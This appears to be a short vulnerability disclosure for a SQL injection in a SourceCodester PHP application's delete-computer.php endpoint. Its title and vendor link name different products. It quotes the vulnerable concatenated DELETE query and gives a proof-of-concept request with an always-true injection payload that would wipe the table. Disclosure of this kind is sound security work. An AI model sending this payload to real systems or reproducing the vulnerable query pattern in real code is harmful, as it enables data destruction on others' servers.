 # SOURCECODESTER / Barangay Population System - delete-computer.php SQL Injection

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://www.sourcecodester.com/php/17165/computer-inventory-system-using-php-and-mysql-source-code.html
> 
## Affected Component
> /endpoint/delete-computer.php

## Code
```php
        $query = "DELETE FROM tbl_computer WHERE tbl_computer_id = '$computer'";

        $stmt = $conn->prepare($query);

        $query_execute = $stmt->execute();
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /endpoint/delete-computer.php?computer=1'+or+1%3d1+%23 HTTP/1.1
Host: 
```

## Screenshot

